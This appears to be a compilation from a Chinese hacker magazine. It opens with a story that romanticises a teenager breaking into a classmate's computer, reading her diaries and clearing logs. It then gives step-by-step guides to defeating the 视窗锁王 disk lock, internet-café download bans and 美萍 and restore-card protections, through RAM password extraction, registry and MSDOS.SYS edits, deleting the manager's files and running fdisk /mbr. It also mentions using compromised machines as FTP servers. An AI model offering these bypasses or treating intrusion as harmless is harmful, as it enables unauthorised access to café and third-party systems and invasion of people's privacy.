10岁那年，吵闹的家庭平静了下来，那个被我叫做爸的男人带着一个漂亮的女人去了一个陌生的地方，只留下憔悴的妈和无知的我。说句实话，我真的很开心，因为不必再在有火药味的夜晚在门口徘徊，不必在爸的拳头下流泪，再不必为满身是伤的妈打抱不平。

也许是因为家庭的因素，我开始变得不再爱笑，也淡忘了笑的意义。而我在网络中穿梭也变得习以为常，我乐意叫自己冰尘，我不喜欢在大型聊天室里出没。在网络中，我一样喜欢孤独，热闹对于我没太多意义，或许因为这样，我慢慢拿一些商业软件开刀，对一些站点的用户进行猜解，心情美丽时，通知一下管理员查一下系统的 BUG。对一款软件的跟踪占据了我的大部分时间，也曾有一次 48 小时一直盯在电脑前（除吃、喝以外）。

内向的我在班上没有一个朋友，因为他们都不屑一根不言不语不笑的木头。孤独的我只有在电脑上才能拥有快乐，只有在网络遨游中才能找回自我，只有在看到别人电脑的数字中枢毁坏时才会有“成功”的喜悦。当然，那是以前对黑客的盲目崇拜而造成的幼稚行为。

如果没有绒绒，我不会走进生活，我一直这样认为。

高三那年，随着母亲工作的调动，我转到上海的一所中学，报到第一天，老师把我带到教室，在简单的介绍之后，把我安排到靠窗的第二桌。我的同桌，也就是绒绒，转过头来对我笑了一下，便低头看起书来。齐耳的短发，长长的睫毛，忧郁的眼神，或许这就是她叫绒绒的原因吧，我想，因为她很像一个毛绒绒的布娃娃。

一天体育课，她突然叫我陪她玩篮球。笨手笨脚的我被她绊倒在场上，几乎出尽洋相。

“知道吗？你的眼睛很漂亮！”绒绒嗔嗔地说道。

木讷的我被吓得不知所措。

“真的！我的 QQ 号是：53088373，咱们网上见。”看着我傻傻的样子，她轻轻补充了一句，说完就跑了。

看着她一蹦一跳的背影，心中竟有点热热的。回到家后，我迫不及待地对着试衣镜，仔细端详了起来。说来好笑，六年来，我是第一次照镜子。看着自己僵硬的脸庞，苍白的肤色，冷冷的眼神，竟有些别扭。

眼睛漂亮，想着绒绒天真的表情，脸上开始有点热热的。

坐在电脑前，整个画面都是绒绒，她的笑，她的表情充满了我的整个大脑。我答应到网上去找她的。

“唉……”我叹了口气，启动了我的爱机。照例我点开了 Winamp，再打开 QQ，然后是驱动 Modem，56K 的速度让我很急躁。没办法，看一下自己的网站，看看访客留下了什么。我 QQ 的状态一般都是隐身的，在这个我不以为然的圈子里，他们还有点崇拜我。我没忘记，我加了绒绒，两声咳嗽声后，我们相互问了好，我们聊得很风趣（在现实生活中是很难碰到的）。由于惯性的缘故，我假意下了线，她却仍然挂在上面……不对，怎么才开了屈指可数的几个端口；而系统漏洞竟然没有照例摆在我的面前，莫非她……不可能！现在对我有用的只有 23 和 3389 了，连了一下 3389，输入法也给补上了，弱口令也不存在。怎么个人用户也那么棘手。绒绒的头像依然亮着，忽而眨一下眼睛，真的很可爱。我确认了一下 IP，没错啊！我重新配置了一下字典，加了一些危险口令，决定重扫一次。慢慢等吧：“我要一步一步往上爬，等待阳光静静照着它的脸，小小的天，有太大的梦想，重重的壳裹着轻轻的仰望”，我仍然放着那首歌。突然，一网友的头像闪动了起来，我收了信息，怎么是空的，想起来了，我试一下，她虽不可能用空口令做密码，那 kongloulung 呢？我决定试一下，这次没有弹出错误的对话框，我的心随之波动，进去了进去了，每当这时，我都会点燃一支烟，品尝成功的喜悦。忽然她下线了，我不知道她是不是隐身，但证明她没有断线。她的 C 盘、D 盘、F 盘都摆在了我的面前，C 盘也就免了吧！我打开了她的 D 盘、E 盘，一个一个的文件被我翻看着，虽说不是第一次，但还是有点做贼心虚的感觉。没太多的工夫，发现了一个 JPEG 格式的文件，不会是她的照片吧！还有几个记事本，DOWN 下来吧！很快，我打开了那幅图片，不错，她笑得很美，还有那双美丽的眼睛被长长的睫毛修饰着。该溜了吧！我退了出来，不对，好像忘了做什么！我还没清除日志呢？想想，看她也是傻傻的，可能什么叫日志都不清楚吧！不放心，还是 Telnet 了上去，不会吧！日志有被移走的迹象。我摸不着头脑，莫非有同行进入，不可能那么凑巧吧！三十六计，走为上计。不管那么多了，来欣赏“成果”吧！

我一个一个地打开了记事本，都是她的日记，偷窥别人的日记不道德，不过，这种事情也干多了，粗粗浏览了一下，也没什么。当打开最后一个记事本时，我的心一震：“今天，看着他忧郁的眼神，我的心竟会随之颤动。我知道他冷峻的外表后面，有着一颗脆弱的心。嘻嘻，今天他竟然脸红，好可爱……”

我“啊”的一下，关上电脑，头脑开始混乱。

“她是说我吗？不会的，不会的，可是……”

那一夜，我失眠了。

第二天放学后，我抓起书包刚要走，绒绒叫住我。

“陪我走走好吗？”今天的她像一只受伤的小鹿。

“好，好。”我木讷地应上一句。其实我不想去的，可就是不好拒绝。

她告诉我她的父母离婚了。明天，她爸爸就要娶新妈妈了……

故事便是这样开始的。以后的日子，我像变了个人似的，我的墙纸一直是她那张笑得很灿烂的脸蛋。而我仍然是她爱机的常客，奇怪的是每次退出前清除日志，日志总是被移走或清空。每次退出后，我都感到很不安，好像有人监视我似的。跟她在一起的日子，我感到前所未有的快乐，也就没把那件事放在心上。

很多白天我和她在一起，陪她聊天，陪她逛街，陪她吃冰淇淋。晚上，在 QQ 里互道晚安后，便进入了梦乡。

渐渐喜欢她叫我木头时的样子，渐渐喜欢她拽住我的衣角大叫要吃冰淇淋的样子，渐渐喜欢……

时间就这样一点一滴地消失，而上帝的施舍也慢慢减少。

“SKY，明天我们又要搬家了！”一回家，妈便告诉我一个所谓的“好消息”，妈妈说要到深圳去接手一家新公司，兴许明天就走了，而我也将转到深圳那里的中学读书。

“绒绒，我要转学了。”放学后我鼓起勇气向绒绒说道。

“啊，为什么？”

“因为我妈妈要到深圳去上班。”

“不能留下来吗？”她的声音变得有一丝颤抖。

“也许。”我抓起书包，头也不回地走出教室，身后留下了绒绒的呼喊。其实我想说进入她电脑的事，可还是没有说出来，因为……我想留点什么在她的电脑里！可是，我不知道留下什么？

又一次，我闯进了绒绒的电脑，屏幕上缠缠絮语。

“为什么，为什么你要走，不可以留下吗？你不知道我喜欢你吗？……”穿过显示器，我看到她晶莹的泪珠滑落了下来。关上电脑，泪流了下来。

“其实我也不想走啊……”

又一夜，我失眠了。

到了深圳，我又回到了那个白色的生活圈中，依旧没有笑声，依旧只有电脑的世界，只是多了一段关于绒绒的回忆。

“就是开不了口让她知道，我一定呵护着你，也逗你笑……”

“SKY，听说你们班的一个女生出车祸了。”刚从上海回来的妈妈说道。

“哪个班？”

“上海那个啊！听你们班主任说叫什么绒的。”

“李绒绒！”我一下叫了出来。

“是……是吧。”妈妈被我的样子吓了一跳，她从来没见过我对同学有如此大的反应。

“绒绒，绒绒，绒绒……”当我不顾母亲的阻拦冲回上海时，绒绒已经走了，听她的妹妹说她是在去邮局的路上被车撞倒的。

泪，又一次流了下来。咸咸的。

我连她的最后一面都看不到了，她已经没有机会听我说那三个字了，上帝为什么这么不公平，我几乎用沙哑的声音，颤抖地叫着她的名字，可迟迟没有回音。

带着那一封信和无尽的遗憾，我回到了深圳。

我不敢再打开那一封信，我不想再让遗憾围我左右。

我仍然第一时间打开了电脑，一切都很平静，“我要一步一步往上爬，爬到最高点，乘着叶片往前飞……”怎么会有背景音乐，我喜欢这首歌，但我没有设置啊！绒绒灿烂的笑容也不翼而飞，我呆坐在电脑前，绒绒的墙纸难道也随她一起走了吗？什么都不想留下。她不知道我还希望留下“她”吗？难道这一切我接受得下去吗？直觉告诉我，有人曾进入过我的电脑，可我不相信是绒绒，我四处检查，却在我的桌面多了两个文件夹，一个里面是一些日志，奇怪都是我的 IP，我越是紧张越是焦虑。在我打开另一文件时，我发现了一个标题为“当爱情经过”的记事本，“当一切都来得那么匆匆，又去得那么匆匆，我不知道明天会发生什么，也不知道今天的你过得是不是很好……”我明白了，我仍然用点烟的方式来麻痹自己，让自己的眼泪不轻易滑落。原来这一切的一切，无论在现实中还是网络中，都一直是两个角色在扮演着，而这一切的一切，日志神秘地移走，而又出现在我的桌面上，绒绒的墙纸也不知不觉地飞走。她说，她不想留下什么，她知道我也喜欢她，但只缘于没有表白，这并不代表爱，但这已经满足了。而神秘文件夹的出现，我也清楚，我的电脑也同样为她开了后门，而墙纸的飞走也是她安排的，而记事本打开后，也会被自动删除，真的什么都没有留下……


当我用颤抖的手打开信时，香香的信纸只有一句话：

> “当爱情经过，我们应该把握。”

视窗锁王是一款功能强大的安全保护软件，有许多初学者在使用它。该软件利用 Windows 底层的 VxD 技术在 Windows 95/98/Me 下实现了对硬盘的全面保护。它可以对硬盘上的任意分区、目录实现隐藏和防删除、防改写（只读），抗恶性病毒传播，可防止资料被盗窃。软件使用简单，无须先对硬盘重新分区，是硬盘保护十分理想的软件解决方案，广泛适用于学校机房、单位机房、网吧、电脑屋以及个人电脑的安全保护。

### 受损视窗锁王的防线

文/SSJ

为了把 Windows 的重要文件保护起来，免得被来家里玩的朋友不小心删除，我下载了视窗锁王这个软件，下载地址：http://gt.onlinedown.net/down/lsmith519.zip。视窗锁王的主界面非常小巧，它的全部功能都在这个界面（图1）中。在使用过程中，我发现这个软件有 3 个小小的漏洞，在此写出来提醒大家注意。


#### 漏洞一：密码不保

在视窗锁王中可以设定密码，有了这个密码才能进入该软件进行设置，比方说更改密码或修改被保护的驱动器等，由此可知这个密码非常重要，它就是打开视窗锁王的金钥匙！在视窗锁王的主界面中点击“密码”图标，在出现的窗口中重复输入两次就可以给软件设置密码。不过，这个密码并不安全，用下面这个办法就能得到。

先关闭视窗锁王，然后再次运行该软件，会出现一个窗口，让你输入密码，如图 2 所示，随便输入一些字符，如 13579，点“解锁”按钮，会出现一个对话框（图 3），显示密码不正确。现在，千万不要关闭这个对话框，赶快运行 WinHex，它是一款和 UltraEdit 齐名的 16 进制文件与磁盘编辑软件。WinHex 除了具有 Hex 与 ASCII 码编辑修改、多文件寻找替换、磁盘磁区编辑（支持 FAT16、FAT32 和 NTFS）等功能外，最具特色的是其自 8.3 版以后增加的 RAM 编辑功能！离开了 RAM 编辑功能，WinHex 也只能算作一个普通的 16 进制文件编辑软件；但有了这个功能，使 WinHex 得以进入优秀 16 进制编辑软件行列！大多数人很少会用到这个功能，因此对其不是很了解，其实 RAM 编辑功能非常有用，许多明文对比的软件注册编码都可以用 WinHex 的这个功能得到。


运行 WinHex 之后，首先会出现“启动中心”对话框，选择其中的“打开 RAM”标签，会弹出如图 4 所示窗口，选择其中的“Locksmith”，这就是视窗锁王的主程序，接着点击“主要内存”，就会进入 RAM 方式编辑文件窗口。然后按 Ctrl+F 键，查找我们输入的错误密码“13579”，点击“确定”会发现我们输入的密码，往上看看，你会发现正确的密码“1949101”（图5）！这就证明了视窗锁王的密码验证为明文对比，这样太不安全了！


#### 漏洞二：系统保护不严密

在视窗锁王中可以锁定硬盘，这可太好了，我选择了锁定 C 盘，方法是选择“保护”图标，在新出现的窗口中选择要保护的驱动器，然后点击“确定”即可。但不知道怎么回事，重新启动电脑后无法进入视窗锁王，想在 Windows 下删除视窗锁王建立的 lsmith 目录，没有成功！于是到 Windows 的 MS-DOS 下，用 deltree lsmith 命令删除该目录还是不行。我想在安全模式下应该可以的，于是又重新启动电脑，但无法进入安全模式。看来这个视窗锁王还真管用，无奈之下，想起了用 GHOST 克隆，看行不行。在 Windows 的 MS-DOS 方式下用 GHOST 来克隆，可以正常进行，完成后退回到 Windows 时，系统提示找不到 Smith.vxd 文件，这个文件是视窗锁王自带的。重新启动机器，一切都 OK 了。这说明视窗锁王无法对付 GHOST，如果有人故意用 GHOST 方法就可以突破视窗锁王的防线，使视窗锁王失效。

#### 漏洞三：部分保护功能可以被突破

视窗锁王可以隐藏禁止 MS-DOS 方式，但我们可以在它的眼皮底下恢复该功能。方法是打开注册表编辑器，展开到 HKEY_USER\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp 下，将 DWORD 值 NoRealMode 的键值改为 00000000 即可。

视窗锁王还可以禁用注册表编辑器。其原理就是修改注册表，在 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System 分支下新建 DWORD 值“DisableRegistryTools”，将其键值设为“1”，就可以禁用注册表编辑器。原理明白了，解锁的方法实在是太多了，我们的杂志有过介绍，这里就不多说了。

视窗锁王可以封锁开始菜单中的“运行”，只要我们在注册表中把 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer 下的 DWORD 值“NoRun”的键值改为 00000000 就可以突破这个防线。

另外，视窗锁王隐藏硬盘的功能也是通过注册表来实现的，如下所示：HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer，在注册表编辑器中的右边窗口中新建一个二进制的键值名为“NoDrives”，将你所要隐藏的驱动器所对应的键值按十六进制相加赋值给“NoDrives”就行了。驱动器所对应的键值分别如下：A 驱为“01000000”，B 驱为“02000000”，C 驱为“04000000”，D 驱为“08000000”，E 驱为“10000000”，F 驱为“20000000”，即按英文字母顺序（A～Z）从十六进制的 2 倍数递增。我们要想突破视窗锁王对硬盘的隐藏，只要将“NoDrives”的键值改为 0 就可以了。

一个小发现：在我使用该软件的过程中，发现只要有 SoftICE 或 TRW2000 运行，就无法注册成功，即便你的注册码是正确的也不行。这说明该软件对这两款调试软件有所防范。要想突破这个防线也不难，只要给该软件脱壳，然后用 WinHex 打开该软件查找 ICE 和 TRW 字样，将它们改为别的名字即可。这样软件就不会防 SoftICE 和 TRW2000 了。这只是个小发现，而非软件漏洞，所以单独说说。

综上所述，我们可以知道，视窗锁王并不安全，那些打算在单位机房或网吧中安装该软件的朋友可要小心了，当心有人突破视窗锁王的防线！

经常在网吧冲浪的朋友，大概都碰到过网吧禁止下载的郁闷事……随着网吧软件的升级，破解软件拿到管理员密码已非易事，怎么办？本文教你几招！

### 突破禁止下载的另类招


文／朱平

大多数朋友应该都有在网吧上网的经历吧，那你碰到过禁止下载文件吗？相信大部分人遇到过，特别是对于我们这些软件发烧友。一般，大家的方法是先拿到网吧**专家的密码（到现在你还拿不到管理员密码的话，你就不要混了），退出管理软件，工具→Internet 选项→安全→默认级别→确定。现在你就可以尽情地 Down 了。有人会问，可我真的是拿不到网吧**专家的密码呀，那是不是就没辙了？来，再教你几招！

- 1. 修改注册表

注册表文件应该知道吧，C:\WINDOWS 下的 regedit.exe，双击它（你也可以：开始→运行→regedit）；会弹出注册表编辑器。找到：

HKEY_USERS\\.DEFAULT\\Software\\Microsoft\\Windows\\CurrentVersion\\InternetSettings\\Zones\\3\\1803

是不是键值为 0，如果是，改成 3。重新打开 IE 浏览器，找到你要下载的东西，是不是发现可以下载了？

- 2. FTP 下载

到现在你应该也有肉鸡了吧，那好，把它配置成 FTP 服务器，把你要用的软件都放上。运行→FTP→open ip，接着输入用户和密码，进目录，把你想要下载的 get 下来就可以了。也许，还是有人会说：“可我没有肉鸡呀。”没辙，网上不是有很多免费个人主页空间吗？申请一个就是啦，我就是用虎翼的，以下是我举例的步骤：

```
ftp> open haideguisu.51.net
Connected to haideguisu.51.net.
220 u101.51.net FTP server ready.
User (haideguisu.51.net:(none)): haideguisu  /* 输入用户名 */
331 Password required for haideguisu.
Password:  /* 当然是你的密码 */
230 User haideguisu logged in.
ftp> cd public_html /* 进入目录 */
250 CWD command successful.
ftp> dir /* 列出文件 */
-rw----------1 haideguisu huser 21048 Jun 22 20:24 seclpd
......
-rw----------1 haideguisu huser 273213 May 11 2002 winshell.zip
-rw----------1 haideguisu huser 6976 May 15 2002 winshell1.exe
-rw----------1 haideguisu huser 29406 Jun 9 20:16 winzapper.zip
-rw----------1 haideguisu huser 6452 Jun 22 20:24 wipe
-rw----------1 haideguisu huser 4169 Jun 22 20:24 wipe.c
-rw----------1 haideguisu huser 7431 Jul 23 04:03 wx01.zip  /* 这个是我们要下载的 */
-rw----------1 haideguisu huser 10716 Sep.19 11:34 xfsmd.
226 Transfer complete.

ftp: 4695 bytes received in 0.49 Seconds 9.58 Kbytes/sec.

ftp> bin  /* 二进制传输 */
ftp> get wx01.zip  /* get 要下载的文件 */
200 PORT command successful.
150 Opening BINARY mode data connection for wx01.zip (7431 bytes).
226 Transfer complete.  /* 下载好了 */
ftp: 7431 bytes received in 0.17 Seconds 43.71 Kbytes/sec.
ftp> by  /* 退出 */
```

现在你就会在桌面看到你要的东西。什么？桌面被屏蔽了。没事，IE 有个 Bug，当你在地址栏上输入：桌面，呵，就会显示 Windows 桌面的程序（图 1）。


#### 3．文本下载（没听过吧，我还没失败过，现在拿出来与大家共享）

相信这绝对是最好的选择，首先让我们来熟悉一下 HTML 语言，“``”这表示下载 text.jpg 图片。其实并不下载，只是显示在你的 IE 上。此时，右键点击图片，弹出菜单，选择图片另存为桌面，操作完毕后你会发现 text.jpg 已经在桌面了。大家还要清楚的是禁止下载，但并没有禁止图片的显示，禁止的话那网页上的图片就都看不到了。正是利用这点，我们就能实现 `*.zip`、`*.exe`、`*.c` 等文件的下载。不明白的话，我再把步骤操作一遍吧。

新建一文本文件，输入如下代码 ``，双引号中输入你要下载文件的 URL。点击“文件”→“另存为” `*.htm(html)` 文件。如图 2 所示：

```html

```


此时，在桌面生成 test.htm 文件，如图 3 所示：


呵呵，怎么样，IE 把 `http://9836.com/shell.c` 当成 img 文件了。现在我们要做的就是把 test.htm 存为另一个 `*.htm` 文件，如 test1.htm。另存的同时，IE 会把文件当成图片下载下来，效果是不是达到了？如图 4 所示：


我的思路也基本完成了，如果你还搞不定的话，还是找个朋友利用 QQ 传输文件给你吧，如果你连肯帮这忙的朋友都没有的话，那就来找我吧，QQ：14147470（网速问题，仅限福建地区）。

### 巧于破：也能攻破美萍

文／小华


美萍是网吧中常用的管理软件之一，美萍网管大师的存在，使我们无法随意下载软件，连进入硬盘删除自己的 QQ 聊天记录都不行，因为它封锁了我们对硬盘的访问。可以说，美萍网管大师是网吧管理者的挚爱，却是在网吧上网的人的公敌！

要想自由上网，就得突破美萍的防线。方法有很多种，咱们《黑客防线》杂志曾介绍过一些，但本文要说的方法可能与别的方法不同，因为我们要利用的不是外来的软件，如美萍密码破解器或杀进程软件等，我们要用的就是 Windows 自带的写字板，利用写字板来攻破美萍的防线，是不是很出乎你的意料？

首先，在 IE 浏览器的地址栏中输入 www.sohu.com，打开搜狐网站的首页。然后点击“查看”菜单下的“源文件”（图 1），这时会弹出一个对话框，上面写着：文件太大，记事本无法打开。要用写字板读取文件吗？（图 2），选择“是”，这样就打开了写字板程序，如图 3 所示。把里面的内容全部删掉。其实这一步的主要目的就是打开一个源代码多一些的网页，这样查看源代码时系统就会提示用写字板打开，于是我们就达到了打开写字板的目的。


接下来在写字板中点击“插入”菜单下的“对象”选项，会打开“插入对象”对话框（图 4），选择“从文件创建”，在“文件(E)”栏中输入 C:\Windows\Regedit.exe（如果不行，可以输入 C:\Windows\Explorer.exe），这一步的目的是打开注册表编辑器。点击“确定”按钮，这样在写字板上就插入了一个注册表编辑器对象（图 5），到这里我想大家都明白了我的意图，对！只要用鼠标双击这个图标，就会出现注册表编辑器窗口（如果插入的是 C:\Windows\Explorer.exe，则打开资源管理器窗口）。


不过，该窗口出现的时间很短，很快就会关闭。我们要在它关闭窗口之前，用鼠标点住窗口的标题栏或窗体四边，按住鼠标左键不放，并晃动鼠标即可破掉美萍。如果一次不行，可重新做一次。

这种方法的原理是当我们进行上述操作时，窗口会一直处于激活状态，当美萍要关闭该窗口时会受到干扰，从而无法正常完成限制操作。

## 网吧攻略

ATTACK NETBAR

> 作者编译：Derek / derek@hacker.com.cn

它卡死时，由于美萍只是系统中的应用程序，无法取消 Windows 的自身操作，Windows 会把它当成冲突或非法操作而杀掉它。这样美萍的虚拟桌面和“开始”按钮就消失了。在 IE 地址栏中输入“桌面”这两个汉字，真正的桌面就出来了，那熟悉的一切都回来了！

如果你觉得上面的方法麻烦，这里再提供一个简单的方法。在 IE 浏览器的地址栏中输入：`file:///:%7B20D04FE0-3AEA-1069-A2D8-08002B30309D%7D`，就可以进入“我的电脑”，这样就突破了禁止访问硬盘的限制。如果要删除软件，则先用左键选中要删除的文件，然后按 `Shift+F10` 键，在弹出的右键菜单中选“删除”即可。如果要到回收站中删除文件，可以在浏览器地址栏中输入：`file:///:%7B645FF040-5081-101B-9F08-00AA002F954E%7D`，这样就能进入回收站中。

如果要下载软件，可以双击 IE 窗口中右下角的那个地球图标，这样就会调出 IE 的“Internet 安全属性”对话框（图6），在该窗口中选择“Internet”→“安全”选项，再点“自定义级别”按钮，会弹出“安全设置”窗口，在该窗口中找到“文件下载”和“字体下载”，选择“启用”，这样就突破了网吧中禁止下载文件的限制。如果网吧中还装有“还原精灵”这样的硬盘软保护卡，它的存在会使得与存盘操作相关的操作在系统下次启动后会自动复原，这样我们就无法安装任何软件！这时我们可以用 `fdisk /mbr` 命令重写主引导扇区，然后重新启动计算机，这样还原精灵就没有了！


现在，你就能体验到在网吧中自由冲浪的乐趣了！最后要提醒大家的是，不要用本文中提到的方法去搞破坏，否则后果自负！

### 对《突破网吧限制全攻略》的补充

文 / blacksheep（blacksheep.cn.st）

本刊 2003 年第 2 期上登载了一篇《只为自由故——突破网吧限制全攻略》的文章，作者叙述了好几条破解网吧管理软件的方法，但所介绍的有些方法比较麻烦，其实还有更加简单的方法（该方法适合初级管理模式）。

- **突破鼠标右键限制**：在目标上点击右键，出现添加到收藏夹的窗口，这时不要松开右键，也不要移动鼠标。使用键盘的 `Tab` 键，移动焦点到取消按钮上，按下空格键，窗口消失，松开右键，OK，你要的右键功能全出来了。
- **返回桌面**：按 `Winkey`（带有 Windows 图标的那个键）+`D` 组合键可以返回桌面，而再次按下 `Winkey+D` 组合键便可以重新返回管理状态下的桌面。
- **突破硬盘隐藏限制**：打开腾讯浏览器 TE，输入你想要查看的驱动器名（如 `C:\`），回车，则打开了 C 盘，打开其他盘的方法相同。双击某文件即可打开，或者可以按下 `Winkey+D` 组合键回到桌面进行操作，同样简单。
- **突破隐藏资源管理器的限制**：按下 `Winkey+E` 组合键即可打开资源管理器。
- **突破无法进入 DOS 的限制**：
  1. 打开记事本（随便打开一个网站，选择查看源文件便可），新建一个文件输入 `c:\command`，把这个文件存为 `a.bat`。然后运行这个文件，便可进入 DOS。
  2. 打开腾讯浏览器 TE，输入 `c:\command.com`，回车，出现下载页面，点确定后方可进入 DOS。

以上方法在运行有美萍管理软件的网吧实验通过。另外，向大家推荐一个网站 `http://www.cy07.com`，站长收集了大量破解网吧的方法，大家可以去看看。当然，写这些方法是为了大家在网吧时可以更自由地使用计算机，而不是搞破坏。如有读者用以上方法造成破坏的，后果自负，本文不承担任何责任。


### 突破美萍的防线

文／大鹰


美萍是网吧中最常用的管理软件之一，在网吧上网的朋友没有不痛恨它的，它限制了大家的自由，因为哪里有压迫，哪里就会有反抗！经过大家前仆后继的不懈努力，针对美萍的破解方法层出不穷，但随着美萍版本的不断升级，有许多方法已经失效，而且那些大家都知道的方法如果再写在这里，一定会被大家给骂死！所以必须写些大家并不是很熟悉的方法才行，本文要告诉大家的就是这样一个很另类的方法：妙用 Winamp 突破美萍的防线！

大家知道，网吧中为了防范大家，在美萍的设置中早就屏蔽了对硬盘的直接访问（无法从 IE 中输入 `C:\` 等进入硬盘），而且将所有的硬盘都隐藏起来（无法点击硬盘图标进入硬盘），并且禁止了热键如 `Ctrl+Alt+Del` 等（无法查看美萍的进程并终止它），开机屏蔽 `F4`、`F5`、`F8` 等键（无法进入安全模式和 MS-DOS 方式），禁用注册表编辑器（无法利用注册表去掉美萍的启动），可人为设置禁止导入的文件类型（可防止我们利用 `.REG`、`.VBS`、`.INF` 等文件解锁注册表），禁止下载 `EXE` 和 `ZIP` 文件（无法直接下载破解美萍的工具）。这样的防线看似很严密，但世上没有不透风的墙，美萍亦如此。比如说，我们可以利用 Winamp 突破美萍的防线。

网吧中可能没有 WinZIP、WinRAR、ACDSee、腾讯 Explorer（这些都是破解美萍的好工具），但一定有 QQ 和 Winamp。QQ 用来招揽顾客，供大家聊天使用，而 Winamp 则用来使大家沉浸于音乐而流连忘返。用 QQ 突破美萍防线的方法大家可能都知道，但用 Winamp 破解美萍的方法您就不一定知道了。其实，真的很简单。

- 1）在其主窗口中按 `Alt+T` 键，会打开 Winamp 迷你浏览器（MINIBROWSER），如图2所示，在该窗口的下方可以输入网址，当然也可以输入硬盘的盘符了，这样我们就可以进入硬盘了！同时按下 `Ctrl` 键和字母 `O` 键会打开一个输入网址的对话框，如图3所示，默认打开的是 `file:///C:/Program Files/Winamp/winampmb.htm`，我们可以将后面的内容去掉，只用 `file:///C:/` 这一部分就可以了。


运行 Winamp，出现 Winamp 的主界面（图1）。

回车，不管网吧管理员是否隐藏了 C 盘，在 MINIBROWSER 窗口中我们都可以看见 C 盘的内容！如果要进入其他盘，也可以如法炮制。

美萍一般都是安装在 `C:\smenu` 文件夹下，其密码保存在 `smenu.jst` 文件中，不过该文件无法直接删除，因为此时美萍正在运行，这个文件受到了保护。但是，不要忘了，我们现在是在 Winamp 的迷你浏览器中，此时我们可以按 `Ctrl+D` 键删除 `smenu` 文件夹，然后重新启动计算机，美萍的虚拟桌面就消失了，可以随心所欲了！

网吧虽然大都只是一个规模很小的局域网，但要想很好地管理维护却绝不比那些 Internet 上的服务器容易，因为你不光要维护服务器，还要保证每台客户机正常工作。了解并善用各类网吧管理软件，能大大减轻您的工作负担。本文详细叙述了几款此类软件的使用技巧，特别还针对这些软件的安全性进行了分析，如果你是一位网吧老板或者网吧管理员，不妨看看这篇文章。

### 网吧管理软件安全漏洞攻防


文 / toni

相信现在的大部分网吧经营者、维护者们都用过或曾经用过网吧管理软件。用这类软件，可以为管理者们省下很多工作。由于这类软件自身的特性，在用户使用电脑的过程中，它们自始至终扮演着维护安全的角色。但随之而来的问题就是这类软件自身的安全问题，假若这类软件被别人攻克，甚至受控于人，那么造成的损失可能是巨大的。下面就来谈谈这类软件的安全问题。

#### 一、网吧管理软件自身安全的漏洞

### 1. Ctrl+Alt+Del

大家都知道，`Ctrl+Alt+Del` 可以用来查看当前 Windows 下正在运行的程序，常作为关闭某程序的最有效的手段，所以网吧管理软件首先要对此做好防卫。在这里，“美萍”和“万象幻境”的手段有点不同，“美萍”是始终将 `Ctrl+Alt+Del` 屏蔽了的，“万象幻境”中可以用 `Ctrl+Alt+Del`，但找不到其自身运行的程序。在“美萍”早期的版本中，用 `Ctrl+Alt+Del` 不失为让“美萍”下课的好方法。但时至今日，这种古老的方法仍然左右着“美萍”。在开机后，出现 Windows 蓝天白云的时候，你就要做好准备，将 `Ctrl+Alt` 键按住，同时准备好按 `Del` 键。在蓝天白云图过后，出现空白背景图时，立即按 `Del` 键。这时弹出的“关闭程序”对话框里面还没有程序或 “explore” 程序，那么，恭喜，你把握好了机会，因为此时美萍的虚拟程序还未启用。点击“取消”，继续按 `Del` 键（之间不要松 `Ctrl+Alt` 键），如果没有 “smenu” 这个程序，点击“取消”后，重复上面操作；如果发现 `smenu` 后，立即将它关闭；如果发现“未知”程序时，也要关闭掉。此时我们不要掉以轻心，因为 `smenu` 这个程序会启动两次，然后重复上述操作，直到将 `smenu` 关闭为止。同“美萍”一样，“万象幻境”也要关闭两次。

### 2. 用 Windows 开始菜单

进入 Windows 并非只有一条途径，用户可以根据不同的需要选择不同的模式进入。在开机后，用 `F8` 键，就会出现 Windows 开始菜单。里面有正常模式、安全模式、MS-DOS 模式等多种供用户选择的模式。从这里进入安全模式或 MS-DOS 模式都可以对网吧管理软件造成致命的打击。在安全模式中，Windows 只运行一些最基础的系统程序，我们可以轻松地将网吧管理软件删除掉。在 MS-DOS 模式中，我们可以用删除命令将网吧管理软件除去，例如：`c:\deltree octopus`。这两款软件的作者们其实也考虑到了这点，在这两款软件中都有“开机屏蔽 `F4`、`F5`、`F6`、`F8`”这个功能，如果开启这项功能，以后用户就不能通过这些键来进入 Windows 开始菜单了（其实这样也有漏洞，破解方法见下）。

### 3. 修改 MSDOS.SYS 文件

`MSDOS.SYS` 是重要的系统文件，它里面含有 Windows 在启动时所要处理的一些信息，我们可以把它进行修改，以达到我们所需的目的。由于该文件是只读的系统文件，所以我们要在“文件夹选项”中选“查看所有文件”，并且去掉其只读属性，然后就可以对它进行修改了。

关闭屏蔽 `F4`、`F5`、`F6`、`F8` 键：

“美萍”及“万象幻境”都有在启动时屏蔽这几个键的功能，实际在没有网吧管理软件的情况下，我们也能在启动时将这几个键屏蔽掉。换句话说，我们能将网吧管理软件对这几个键的屏蔽作用撤销。具体方法是：用记事本打开该文件，在 `[Options]` 后找到 `BootKeys=0`，将 `0` 改为 `1`。在 `BootKeys=1` 时，`F4`、`F5`、`F6`、`F8` 键在启动时能够使用。修改完后，保存结果即可。

关于开机时直接启动到 DOS 界面：

用上述方法将 `MSDOS.SYS` 打开后，在 `[Options]` 后找 `BootGUI=1`，将 `1` 改为 `0`。在 `BootGUI=1` 时，启动后，系统直接到 Windows 图形界面；在 `BootGUI=0` 时，系统启动时直接到 DOS 界面。这里要注意的是：以后每次启动系统时，系统都直接到 DOS 界面，所以用户需要在 Windows 文件夹下运行 `win.exe` 程序才能进入 Windows。

### 4. 安装新网吧管理软件

由于“美萍”与“万象幻境”是同类性质的软件，在功能上有很大部分内容交叉，我们就可以给它来个自己人打自己人。从网上下载新的网吧管理软件，安装好后，就可以用下载的网吧管理软件将原有网吧管理软件的防护措施一层层剥去，再通过其他手段将其铲除。

防御：可以设置网吧管理软件禁止下载可执行程序，虽然使用这招可能会招来很多人的反对，但出于生计，我看还是用上比较好。

### 5. MSCONFIG

用系统配置程序来禁止某程序的自运行，很多朋友都用过。具体方法是：找到 `MSCONFIG.EXE` 并运行，点击“启动”，那么下次开机后，网吧管理软件就不会自动运行了。这里要注意的一点是：“万象幻境”除了要将系统配置程序作修改外，还要将注册表里相应的子键给删除，只有两者都作修改后，它才不会自动运行；“美萍”则单独修改系统配置程序即可。

